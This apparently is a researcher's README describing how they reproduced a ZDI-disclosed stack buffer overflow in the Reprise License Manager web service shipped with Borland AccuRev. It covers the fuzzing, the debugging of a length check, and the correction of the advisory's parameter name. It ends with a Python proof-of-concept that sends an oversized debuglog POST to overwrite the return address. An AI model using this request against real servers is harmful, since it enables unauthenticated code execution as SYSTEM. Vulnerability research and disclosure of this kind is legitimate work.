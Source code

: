 # Borland-AccuRev-StackoverFlow
****
mail :   Firozimaysam@gmail.com 
twitter : https://twitter.com/R00tkitSMM 

I try to Exploit recently published  vulnerability in Borland AccuRev 

http://www.zerodayinitiative.com/advisories/ZDI-15-416/

````
his vulnerability allows remote attackers to execute arbitrary code on 
vulnerable installations of Borland AccuRev. Authentication is not required
to exploit this vulnerability.

The specific flaw exists within the service_startup_doit functionality
of the Reprise License Manager service. The issue lies in the handling 
of the licfile parameter which can result in overflowing a stack-based buffer.
An attacker could leverage this vulnerability to execute code under the context of SYSTEM.
````
there was two fake information in ZDI report

1. mapping between string and function is "service_Setup_doit" not "service_startup_doit"
2. vulnerable parameter is debuglog not licfile 

RLM come with AccuRev but it can be directly download  by following link:  http://www.reprisesoftware.com/license_admin_kits/rlm.v11.3BL1-x86_w1.admin.exe

searching service_startup_doit string inside rlm.exe dont have any results so i changed it to service_  to get following strings

![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/stringInIdapro.png)

after some reversing and  anlyzing functions that use above string i decide to use another way to finding bug 

ZDI said vunlnerable function is accessible remotely so I start read RLM manal to find out how it work 
RLM have Web interface it start http server on port 5054 , with the help of burpsuite we can view all http parameters in post or get requests 
after fuzzing Web interface i found target "licfile" parameter in one  Post request
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/burpsuite.png)

for checking licfile parameter vunlarblity with help of BurpSuite i send big string parameter to web server
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/bigbuffer.png)
but rlm.exe send error  response  without any crash 
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/httperror.png)
i set breakpoint in Immunity debugger to track how rlm.exe validate size of string 
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/asm-check.png)

based  on above asm code rlm check string size be less than or egaul to 0x400 to prvent buffer overflow so i thought my rlm.exe version is not vulnerabile but i start fuzzing other attack vetors ,so i findout if you send big  string in debuglog parameter and  if string is less than  0x400 to bypass above check you can overiride return value in stack  with  notorious 0x41414141 in rlm.exe so i as said  vulnerabile function is debuglog not licfile .

![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/eip.png)

i checked rlm.exe and  it does not support ASLR but there was a big problem,rlm.exe contain null in its addressو so we can't use any address to build our ROP inside rlm.exeو becuse it use string copy functios and it copy string in stack unitl null byte.
so exploting this vulnerability is so simple in XP,just return to shellcode insde stack without ROP 

````
import requests
url="http://10.211.55.39:5054/goform/service_setup_doit"
data= {
    'servicedesc':'RLM+License+Server',
    'servicename':'rlm',
    'action':'1',
    'debuglog':'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC'+"\x41\x41\x41\x41",
    'licfile':'C:\Users\username\Desktop\rlm-old'
    }
print requests.post(url, data=data).text
``````

